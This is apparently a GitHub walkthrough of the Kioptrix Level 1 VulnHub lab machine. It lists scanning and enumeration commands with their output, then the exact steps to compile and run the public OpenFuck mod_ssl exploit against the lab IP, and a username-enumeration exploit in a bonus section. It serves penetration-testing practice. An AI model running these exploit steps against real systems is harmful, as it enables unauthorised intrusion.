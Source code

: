 # Walkthrough: [Kioptrix Level 1](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/)

## Table of Contents

- [Enumeration](#enumeration)
- [Penetration & Privilege Escelation](#penetration--privilege-escelation)
- [Bonus](#bonus)
	- [Bruteforce](#brute-force)
	- [Intresting Files](#intresting-files)

## Enumeration
- VM IP: `sudo netdiscover`

	* `VMWare 192.168.0.14`
  
- VM info: `nmap -A -T4 -v 192.168.0.14`

  * <pre>
    22/tcp   open  ssh         OpenSSH 2.9p2 (protocol 1.99)
    80/tcp   open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
    111/tcp  open  rpcbind     2 (RPC #100000)
    139/tcp  open  netbios-ssn Samba smbd (workgroup: MYGROUP)
    443/tcp  open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
    1024/tcp open  status      1 (RPC #100024)
    </pre>
    
- Web Server Directory: `dirb -w http://192.168.0.14`

	* Default apache pages/settings.  
  
- Web Server Vurnerabilities: `nikto -h 192.168.0.14`

  * <pre>
    OSVDB-637: Enumeration of users is possible by requesting ~username (responds with 'Forbidden' for users, 'not found' for non-existent users).
    OSVDB-756.mod_ssl/2.8.4, CVE-2002-0082: mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell (difficult to exploit).
    OSVDB-3092: Files found:/test.php
    </pre>
  * [/test.php link](#intresting-files)
    
- Samba info:

  * `smbclient -L 192.168.0.14` **<--- Anon login available**  
  
    <pre>
    IPC$            IPC       IPC Service (Samba Server)
    ADMIN$          IPC       IPC Service (Samba Server)

    Server               Comment
    ---------            -------
    ANTON                Anton server (Samba, Ubuntu)
    KIOPTRIX             Samba Server
    
    Workgroup            Master
    ---------            -------
    MYGROUP              ANTON
    </pre>
  * `enum4linux4 -a -v 192.168.0.14`

- NetBIOS info: `sudo nbtscan -v 192.168.0.14`
  
  * <pre>
    NetBIOS Name Table for Host 192.168.0.14:

    Incomplete packet, 191 bytes long.
    Name             Service          Type             
    ----------------------------------------
    KIOPTRIX         <00>             UNIQUE
    KIOPTRIX         <03>             UNIQUE
    KIOPTRIX         <20>             UNIQUE
    MYGROUP          <00>              GROUP
    MYGROUP          <1e>              GROUP

    Adapter address: 00:00:00:00:00:00
    </pre>

## Penetration & Privilege Escelation
- Nikto revealed a [ssl vurnerability](https://www.exploit-db.com/exploits/47080)
	* Download and compile the exploit:   
	`cd ~/Downloads/ && sudo apt-get install libssl-dev && gcc -o OpenFuck 47080.c -lcrypto`
	* Run the exploit: `./OpenFuck 0x6b 192.168.0.14 443`
---

## Bonus

### Brute Force
- Nikto revealed an Apache vurnerability (https://www.exploit-db.com/exploits/21112) which releaves usernames that exist on the vulnerable system.
	* Download the exploit from: https://www.exploit-db.com/exploits/21112
	* Run the exploit: `./21112.php <host> <userlist> <delay>`
	
### Intresting Files
- /test.php:
  ```
  <?php4

    print "TEST";

  ?>
  ```
